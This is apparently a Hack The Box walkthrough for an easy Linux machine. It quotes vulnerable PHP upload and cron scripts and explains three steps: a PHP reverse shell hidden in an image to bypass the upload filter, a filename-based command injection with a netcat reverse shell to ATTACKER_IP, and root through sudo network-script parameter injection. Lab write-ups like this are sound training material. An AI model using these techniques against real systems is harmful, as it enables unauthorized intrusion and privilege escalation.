







This box is rated easy difficulty on HTB. It involves us bypassing file upload filters to get a shell on the box as Apache, exploiting a vulnerable cronjob to get RCE as another user, and abusing a network script by injecting commands into user-supplied parameters.

## Scanning & Enumeration
I begin with an Nmap scan against the target IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.129.3.194 -oN fullscan-tcp
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-20 00:38 CST
Nmap scan report for 10.129.3.194
Host is up (0.058s latency).

PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.83 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Without credentials we can't do much on that version of OpenSSH other than username enumeration so I fire up Gobuster in order to find any subdirectories/subdomains in the background. Checking the landing page shows a quick message saying that the developers on the site are creating a new version of FaceMash and would like funding.



Along with that text is a comment in the source code that says the following:

```
<!-- upload and gallery not yet linked -->
```

A bit of digging on FaceMash reveals that it was a website used to rank the attractiveness of students by uploading pictures to the site. It was very controversial and also created by none other than Mark Zuckerberg.

My scans find a `/backup` folder as well as an `/uploads/` directory which is probably where the pictures are being uploaded to.

```
$ gobuster dir -u http://10.129.3.194/ -w /opt/SecLists/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.3.194/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 236] [--> http://10.129.3.194/uploads/]
/backup               (Status: 301) [Size: 235] [--> http://10.129.3.194/backup/]
```

Uploads held nothing other than a single period character, however there was a trailing slash which meant there could be more files under it. On the other hand, the backup directory had a .tar archive inside which I went ahead and downloaded.

## Bypassing Upload Filter
Unzipping that gives us three files to work with, it also seems like this was a backup of the website's files in case something disastrous were to happen. 

```
┌──(cbev㉿kali)-[~/Downloads]
└─$ tar -xf backup.tar

┌──(cbev㉿kali)-[~/Downloads]
└─$ ls
backup.tar  index.php  lib.php  photos.php  upload.php
```

Navigating to these files on the production site shows the same content. There was nothing too crazy in this versions of `index.php`, however the others had plenty of information in regards to exploiting file uploads on the site.

`Lib.php` mainly held functions for checking filetypes and regular site functionality. `Photos.php` would just display all of the images within the uploads directory and also depended on lib to call certain functions. The real stuff was inside `upload.php`, which showed exactly how the site would accept files and store them in the `/uploads/` directory.

This is the source code for uploads on the site:

```
<?php
require '/var/www/html/lib.php';

define("UPLOAD_DIR", "/var/www/html/uploads/");

if( isset($_POST['submit']) ) {
  if (!empty($_FILES["myFile"])) {
    $myFile = $_FILES["myFile"];

    if (!(check_file_type($_FILES["myFile"]) && filesize($_FILES['myFile']['tmp_name']) < 60000)) {
      echo '<pre>Invalid image file.</pre>';
      displayform();
    }

    if ($myFile["error"] !== UPLOAD_ERR_OK) {
        echo "<p>An error occurred.</p>";
        displayform();
        exit;
    }

    //$name = $_SERVER['REMOTE_ADDR'].'-'. $myFile["name"];
    list ($foo,$ext) = getnameUpload($myFile["name"]);
    $validext = array('.jpg', '.png', '.gif', '.jpeg');
    $valid = false;
    foreach ($validext as $vext) {
      if (substr_compare($myFile["name"], $vext, -strlen($vext)) === 0) {
        $valid = true;
      }
    }

    if (!($valid)) {
      echo "<p>Invalid image file</p>";
      displayform();
      exit;
    }
    $name = str_replace('.','_',$_SERVER['REMOTE_ADDR']).'.'.$ext;

    $success = move_uploaded_file($myFile["tmp_name"], UPLOAD_DIR . $name);
    if (!$success) {
        echo "<p>Unable to save file.</p>";
        exit;
    }
    echo "<p>file uploaded, refresh gallery</p>";

    // set proper permissions on the new file
    chmod(UPLOAD_DIR . $name, 0644);
  }
} else {
  displayform();
}
?>
```

This code along with lib.php's `file_check` function performs some basic MIME type checks in order to validate if files are really images. It also ensures that any file uploaded must only contain a JPG, GIF, PNG or JPEG extension.

I upload a valid JPG as a baseline so I can see what happens to it and find that our file's name is stored as the IP that uploaded it. Also upon navigating to `photos.php`, it's automatically rendered to the page.



At first I attempted to stack multiple extensions by uploading shell.jpg.php, however  this was blocked upon submission which meant that we really needed a valid image. I also tried playing with the shell's magic bytes in order to trick the site in accepting our PHP code as a JPG file, but that didn't pan out either.

### Injecting PHP Code into Image Files
The only real possibility I thought of left, was to inject PHP code into an image that we know will be accepted and hope that the site will execute it when we navigate to the full upload URL. I use Pentestmonkey's infamous PHP reverse shell inside of a random JPG pulled off the internet.



We also need to make our file includes the `.php` extension so the site knows to execute our code. This exploit of stacking extensions didn't work earlier because I failed to upload a successful image, however reexamining the source code showed that as long as we had an accepted extension appended to our file, it would be fine.

After setting up a Netcat listener and refreshing the `photos.php` page, the site renders our PHP code and we grab a reverse shell as the Apache user.



## Privilege Escalation
I upgrade my shell using the typical `Python3 -c import pty` method and get to internal enumeration so that we can get a proper shell. Checking the `/home` directory shows just one other user on the system besides root named Guly. 

### Command Injection in Cronjob via Filename
Inside are a few files, including `crontab.guly` which discloses a cronjob that executes the `check_attack.php` script every three minutes as Guly. Here are the contents of that script:

```
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
 $msg='';
  if ($value == 'index.html') {
 continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```

The purpose of this script is to look for unauthorized files within the `/uploads` directory and delete them. It's relatively ok except for one part at the end where the value of `$path` gets appended to an exec function which is supposed to use `/bin/rm` to get rid of the filename. There is no filtering here and it's left vulnerable to command injection by supplying a malicious filename.

```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

Our file must start with a semicolon to break out of the first portion that's using the rm binary, then we can just utilize a simple reverse shell command via Netcat or Bash. Double checking the directory permissions show that we are indeed able to write to it, confirming this is possible.

```
touch '; nc ATTACKER_IP PORT -c bash'
```



After standing up a netcat listener and waiting for the cronjob to run, we grab a successful shell as Guly. I also immediately upgrade this using the python technique once again to stabilize it.



### Command Injection via Network-Scripts
While going about the usual routes for root privesc on a system, I find that we are able to run a `changename.sh` script as root user. This script simply creates a network script for an interface named Guly while taking in a few user-supplied parameters.

```
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
 echo "interface $var:"
 read x
 while [[ ! $x =~ $regexp ]]; do
  echo "wrong input, try again"
  echo "interface $var:"
  read x
 done
 echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0
```

Besides filtering our input for valid alphanumeric characters, it doesn't really seem to block anything. I tried just typing regular commands into each field but nothing seemed to work. Checking which version of Sudo is installed disclosed that we are on an implementation of a RedHat Linux distro.

I spent some time researching privilege escalation methods via network-scripts which ultimately led me to [this Vulmon article](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f). It explains that the interface NAME parameter is prone to command injection just as expected, however I just needed to provide a string for the script to use beforehand. In this case, the space acts as a semicolon when comparing it to traditional command injection examples.

Providing bash after a random word in the first name field spawns a root shell since we're running the script with Sudo.



Grabbing the final flag under `/root/root.txt` completes this box. Overall, this challenge was a lot of code review and exploiting things via injections which was good practice. I hope this was helpful to anyone following along or stuck and happy hacking!
